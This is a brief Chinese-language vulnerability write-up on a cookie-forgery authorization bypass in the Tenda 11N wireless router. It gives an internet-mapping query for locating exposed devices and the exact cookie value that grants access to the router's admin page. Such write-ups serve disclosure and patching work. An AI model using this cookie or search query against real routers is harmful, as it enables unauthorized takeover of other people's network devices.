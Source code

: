 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

```
Tenda 11N无线路由器
```

## 网络测绘

```
app="TENDA-11N无线路由器"
```

## 漏洞复现

登录页面

![image-20220519180949727](images/202205191809768.png)

添加Cookie, 访问 index.asp 进入后台

```
admin:language=cn
```

![image-20220519181248549](images/202205191812628.png)